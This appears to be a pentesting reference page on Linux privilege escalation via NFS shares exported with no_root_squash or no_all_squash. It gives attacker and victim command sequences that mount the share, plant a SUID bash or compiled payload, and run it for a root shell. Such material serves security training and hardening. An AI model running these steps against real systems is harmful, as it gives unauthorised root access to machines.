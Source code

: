 # NFS no\_root\_squash/no\_all\_squash misconfig PE

Read the \_ **/etc/exports** \_ file, if you find some directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Privilege Escalation

### Remote Exploit

If you have found this vulnerability, you can exploit it:

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **/bin/bash** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our C compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary (you can find here some[ C SUID payloads](../../../linux-unix/linux-privilege-escalation/broken-reference/)).

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

## Resources

\*\*\*\*[**https://tryhackme.com/room/linuxprivesc**](https://tryhackme.com/room/linuxprivesc) **(Task 19)**

[**https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/**](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/)\
[**https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/**](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/)

***
